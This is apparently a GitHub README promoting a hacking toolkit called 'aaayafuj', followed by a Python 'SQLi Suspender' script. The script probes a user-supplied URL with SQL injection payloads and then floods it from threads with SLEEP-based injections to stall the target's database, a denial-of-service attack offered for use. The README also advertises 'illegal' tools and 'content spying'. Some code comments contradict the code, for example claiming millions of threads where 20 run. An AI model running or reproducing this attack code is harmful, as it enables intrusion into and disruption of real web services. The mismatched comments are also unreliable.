 # ⚡ What is aaayafuj?
* aaayafuj is not just a name — it's a whole damn cybersecurity ecosystem.
* Think of it like a Swiss army knife for ethical hackers, pentesters, intelligence ops, and secure comms warriors.
* Built with a mix of old-school hacking discipline and AI-powered precision, it's the answer to today’s chaotic infosec landscape.

# 💻 Core Components of aaayafuj:
*  🧠 aaayafuj Ethical Hacking Platform
* An AI-enhanced penetration testing platform with 200+ tools — from classic exploits to custom scripts. You’re not just scanning ports here… you're dissecting networks.

# 🖥️ aaayafuj Operating System
* A Kali-style pentest OS, dark-themed, neon-coded, built for speed. It’s got custom aaayafuj tools, a real terminal interface, and AI advisors.

# 🛠️ aaayafuj Marketplace
* A legal + restricted market for cybersecurity scripts, books, and tools. Open source stuff is free. Illegal tools? Gated by certifications, approval, and strict controls.

# 📡 Net AAA / Net 3A Terminal
* Secure communication tools (legal + illegal sides). Think encrypted chat, dark web-style forums, GPS tracking, and even an ethical IP tracing engine (Net J6 Tracker).

# 📱 aaayafuj Mobile App & Cloud Dashboard
* Real-time AI analytics, terminal in your pocket, link generation, productivity, and access to tools — all on Android/iOS.

# 🧬 Government-grade Security
* Blockchain-based identities, intelligence-sharing networks, secure cloud, and audit-ready logs. Think NSA but with ethics.

# 🛡️ Tool Example: aaayafuj_hacking_tools_neter.sh
* This bash script gives you access to a full suite of tools:
* SQLMap injection module
* Payload link generator
* Net AAA legal chat launcher
* Instant access to aaayafuj Marketplace
* Auto-updater for all tools
* Search tools, IP tracing, and more
* All run with style — ASCII banners, color-coded logs, AI commentary, and fast exec.

# 🔍 And this script you have open? aaayafuj Search Tools
* It lets you:
*  Instantly search aaayafuj across Instagram, GitHub, YouTube, Facebook, X (Twitter), TikTok, SoundCloud, and even Net AAA and its Marketplace.
* It’s your reconnaissance launchpad. Perfect for OSINT, branding checks, or content spying.

# 🚀 Philosophy:
* Tools can be used for good or evil. aaayafuj chooses ethics, control, and access through knowledge and verification." — Yafet Yohanes



#!/usr/bin/env python3

import requests, threading
from urllib.parse import urlparse, parse_qs, urlencode, urlunparse
from time import sleep

# Detection payloads
detect_payloads = [
    "' OR SLEEP(5) --",
    "' OR '1'='1",
    "' AND 1=2 --",
    "' UNION SELECT null, version() --"
]

# Attack payload used for suspending (DoS-style)
suspend_payload = "' OR SLEEP(15) --"

# Threaded hammering
def hammer(url, times):
    for _ in range(times):
        try:
            requests.get(url, timeout=2000000)
            print(f"[🔨] Suspended hit on: {url}")
        except:
            print(f"[❌] Failed to send hammer request")

def build_injected_url(url, payload):
    parsed = urlparse(url)
    query = parse_qs(parsed.query)

    for key in query:
        original = query[key][0]
        query[key] = original + payload
        return urlunparse(parsed._replace(query=urlencode(query, doseq=True)))

    return None

def main():
    print("\n[aaayafuj] SQLi Suspender")
    url = input("Enter target vulnerable URL: ").strip()

    print("\n[+] Checking for basic SQLi vulnerabilities...")
    for payload in detect_payloads:
        injected_url = build_injected_url(url, payload)
        try:
            r = requests.get(injected_url, timeout=1000000)
            if r.elapsed.total_seconds() > 4 or "sql" in r.text.lower():
                print(f"[✅] Vulnerability likely with: {payload}")
        except:
            pass

    choice = input("\n[?] Do you want to SUSPEND the target with sleep() abuse? (y/N): ").lower()
    if choice != "y":
        print("[-] Abort.")
        return

    # Inject sleep-based payload and hammer it
    suspend_url = build_injected_url(url, suspend_payload)
    print(f"\n[🔥] Suspending: {suspend_url}")

    threads = []
    for _ in range(20):  # 2000000 threads, hammering sleep(1500000)
        t = threading.Thread(target=hammer, args=(suspend_url, 10))  # 10 hits per thread
        t.start()
        threads.append(t)

    for t in threads:
        t.join()

    print("\n[✔️] Suspension attempt complete.")

if __name__ == "__main__":
    main()
